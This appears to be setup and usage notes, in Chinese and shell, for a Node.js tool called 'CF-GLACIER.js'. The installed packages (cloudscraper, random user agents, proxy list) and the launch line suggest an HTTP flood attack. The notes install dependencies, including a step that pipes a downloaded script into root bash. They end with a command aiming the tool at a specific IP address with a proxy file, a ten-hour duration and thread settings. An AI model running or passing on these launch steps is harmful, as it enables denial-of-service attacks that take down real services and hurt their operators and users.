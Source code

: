环境安装：   sudo apt -y install curl dirmngr apt-transport-https lsb-release ca-certificates;curl -sL https://deb.nodesource.com/setup_12.x | sudo -E bash -;sudo apt -y install nodejs;sudo apt -y install gcc g++ make;sudo apt -y install htop vnstat;sudo apt -y install screen;sudo apt -y install unrar;npm i events; npm i request; npm i os; npm i fs; npm i cluster; npm i cloudscraper; npm i url; npm i path; npm i net; npm i chalk;npm i sync-request;npm i random-useragent;npm i randomstring; npm i colors;npm i zombie;npm i random-useragent;sudo apt-get install unzip;echo

利用： node CF-GLACIER.js GET http://50.7.198.146/ cc.txt 36000 128 120
